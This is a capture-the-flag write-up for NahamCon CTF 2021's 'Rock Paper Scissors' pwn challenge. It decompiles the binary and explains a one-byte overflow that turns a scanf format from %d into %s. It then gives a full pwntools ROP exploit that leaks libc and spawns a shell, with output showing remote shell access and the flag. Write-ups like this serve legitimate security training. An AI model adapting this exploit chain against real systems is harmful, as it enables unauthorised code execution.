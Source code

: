 # NahamCon CTF 2021

## Rock Paper Scissors [medium[

> Author: @M_alpha#3534
>
> How about a friendly game of rock-paper-scissors? 
>
> [rps](rps) [libc-2.31.so](libc-2.31.so)

Tags: _pwn_ _x86-64_ _bof_ _rop_ _format-string_ _scanf_


## Summary

A `read` statement is allowed to overshoot its buffer by one, allowing an attacker to change the LSB of a pointer from static format string `%d` to static format string `%s`.  This then opens up a classic `scanf` `%s` buffer overflow.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE and no canary, ripe for _rop_ and _bof_.  No GOT attacks however, _gotta_ use what we _got_.

### Decompile with Ghidra

```c
void FUN_00401313(void)
{
  int iVar1;
  time_t tVar2;
  int local_14;
  int local_10;
  char local_9;
  
  local_9 = '\x01';
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  while (local_9 != '\0') {
    iVar1 = rand();
    local_10 = iVar1 % 3 + 1;
    FUN_004012c9();
    __isoc99_scanf(PTR_DAT_00404028,&local_14,&local_14);
    getchar();
    if (local_10 == local_14) {
      puts("Congrats you win!!!!!");
    }
    else {
      puts("You lose!");
    }
    putchar(10);
    printf("Would you like to play again? [yes/no]: ");
    read(0,&DAT_00404010,0x19);
    iVar1 = strcmp("no\n",&DAT_00404010);
    if (iVar1 == 0) {
      local_9 = '\0';
    }
    else {
      iVar1 = strcmp("yes\n",&DAT_00404010);
      if (iVar1 == 0) {
        local_9 = '\x01';
      }
      else {
        puts("Well you didn\'t say yes or no..... So I\'m assuming no.");
        local_9 = '\0';
      }
    }
    memset(&DAT_00404010,0,4);
  }
  return;
}
```

`FUN_00401313` is the vulnerable function, specifically the line `read(0,&DAT_00404010,0x19)`, that reads up to `0x19` (25) bytes into global `DAT_00404010` (which is only 24 bytes length), that can then be used to overwrite the LSB of global `PTR_DAT_00404028`.  By default `PTR_DAT_00404028` is pointing to a static string `%d`, by changing the last byte to `0x08` we can now have it point to the static string `%s`.

> Load this up in Ghidra and look around, you'll see it.

With a 2nd pass and `%s` setup for `scanf` we can simply overflow the buffer.


## Exploit

Standard fare pwntools:

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./rps')
binary.symbols['rps'] = 0x401313

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 31004)
    libc = ELF('./libc-2.31.so')
else:
    p = process(binary.path)
    libc = binary.libc
```

```python
p.sendlineafter('[y/n]: ','y')
p.sendlineafter('> ','1')

# move pointer from %d to %s
payload = b'yes\n\0' + (0x19 - 5 - 1) * b'A' + p8(0x8)
p.sendlineafter('[yes/no]: ',payload)
```

> Given how the random numbers here are 100% predictable, it would be easy to determine how to win each round, but that isn't what we are here to win, just pick _rock_ each time and move on.

When prompted to play again, clearly `yes\n` is the answer, followed by `\0`, some padding, and a `0x8` as the 25th byte to change the pointer used for the format-string from `%d` to `%s`.

```python
pop_rdi = next(binary.search(asm('pop rdi; ret')))

payload  = b''
payload += 0x14 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.rps)

p.sendlineafter('> ',payload)
p.sendlineafter('[yes/no]: ','no')

_ = p.recv(6)
puts = u64(_ + b'\0\0')
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))

payload  = b''
payload += 0x14 * b'A'
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym.system)

p.sendlineafter('> ',payload)
p.sendlineafter('[yes/no]: ','no')
p.interactive()
```

Round two is just like every other babyrop: leak libc, compute location of libc, loop back to vuln function, then call `system`.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/nahamconctf2021/rps/rps'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenge.nahamcon.com on port 31004: Done
[*] '/pwd/datajerk/nahamconctf2021/rps/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7f2f14cbd000
[*] Switching to interactive mode
$ id
uid=1000(challenge) gid=1000 groups=1000
$ cat flag.txt
flag{93548e97b8c15400117891070d84e5cc}
```

